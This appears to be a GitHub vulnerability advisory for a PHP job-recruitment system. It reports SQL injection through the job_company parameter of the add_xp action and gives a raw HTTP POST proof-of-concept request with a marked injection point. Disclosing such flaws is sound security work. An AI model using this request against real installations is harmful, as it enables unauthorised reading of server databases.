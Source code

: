# job-recruitment-in-php has sql injection vulnerability in job_company parameter

## supplier 
https://code-projects.org/job-recruitment-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
job_company parameter and add_xp function

## describe

An unrestricted SQL injection attack exists in a job-recruitmentsystem. The parameters that can be controlled are as follows: job_company. This function executes the job_company parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the parameter value of $POST['job_company'] is obtained in add_xp action , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![image-20241223210717887](https://github.com/user-attachments/assets/fce0a239-b90a-4da4-842f-4b3700e29f87)

![image-20241223210752857](https://github.com/user-attachments/assets/ad13729c-2400-40cb-95e1-09905d392c2f)

## POC

```
POST /_parse/_all_edits.php HTTP/1.1
Host: airecruitmentsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: http://airecruitmentsystem
Connection: close
Referer: http://airecruitmentsystem/_parse/_all_edits.php
Cookie: PHPSESSID=trffj4a18c7spv0k5me1qi7ni7
Upgrade-Insecure-Requests: 1
Priority: u=0, i

action=add_xp&job_company=1*&job_nm=1
```

**Result**

![image-20241223210649258](https://github.com/user-attachments/assets/f125fb67-da47-4c77-9644-f16e184c9f57)

Get databases;

![image-20241225005108179](https://github.com/user-attachments/assets/7084d4b4-70df-43a0-80bb-cd2a7838e754)

**Discover**

西安电子科技大学： 李腾，谢亚轩，刘芮彤